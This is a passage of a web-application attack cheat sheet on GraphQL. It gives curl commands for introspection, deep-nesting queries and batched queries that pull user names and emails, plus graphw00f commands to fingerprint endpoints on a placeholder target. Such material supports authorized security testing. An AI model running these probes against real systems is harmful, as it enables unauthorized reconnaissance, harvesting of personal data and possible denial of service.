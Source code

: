 
## Web Application Attacks

### Modern Web Attack Vectors

#### GraphQL Exploitation

**GraphQL Introspection and Enumeration**
```bash
# Install GraphQL tools
npm install -g graphql-cli
pip install graphql-core

# Introspection query
curl -X POST http://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "{ __schema { types { name fields { name type { name } } } } }"}'

# Query depth analysis
curl -X POST http://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '{"query": "query { users { posts { comments { author { posts { comments { id } } } } } } }"}'

# Batch query attack
curl -X POST http://target.com/graphql \
  -H "Content-Type: application/json" \
  -d '[
    {"query": "query { user(id: 1) { name email } }"},
    {"query": "query { user(id: 2) { name email } }"},
    {"query": "query { user(id: 3) { name email } }"}
  ]'
```

**GraphQL Enumeration with graphw00f**
```bash
# Install graphw00f
pip install graphw00f

# Detect GraphQL endpoint
graphw00f -f -t http://target.com/

# Fingerprint GraphQL implementation
graphw00f -f -t http://target.com/graphql

# Test common endpoints
for endpoint in graphql api/graphql v1/graphql query; do
    graphw00f -f -t http://target.com/$endpoint
done
```

#### API Security Testing
